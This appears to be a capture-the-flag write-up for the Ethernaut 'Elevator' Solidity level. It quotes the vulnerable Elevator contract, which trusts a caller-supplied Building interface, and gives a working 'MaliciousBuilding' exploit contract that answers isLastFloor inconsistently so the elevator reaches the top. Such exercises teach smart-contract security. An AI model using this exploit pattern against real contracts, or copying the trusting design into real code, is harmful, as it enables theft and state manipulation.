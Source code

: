 # Elevator
> You can use the view function modifier on an interface in order to prevent state modifications. The pure modifier also prevents functions from modifying the state. Make sure you read Solidity's documentation and learn its caveats.

> An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. gasleft().

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

# Solution

From here, you can set the trick trickElevator() function with your desired floor. Once the transaction goes through, you can submit the instance.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint) external returns (bool);
}

interface Elevator {
    function goTo(uint _floor) external;
}

contract MaliciousBuilding is Building {
    Elevator elevator;
    bool public isFirstCall = true;
    uint public currentFloor;

    // Pass the Elevator contract address to the constructor
    constructor(address _address) {
        elevator = Elevator(_address);
    }

    function isLastFloor(uint _floor) external override returns (bool) {
        currentFloor = _floor;

        if(isFirstCall) {
            isFirstCall = false;
            return false; 
        }
        return true;
    }

    function trickElevator(uint desiredFloor) public {
        elevator.goTo(desiredFloor);
    }
}

```
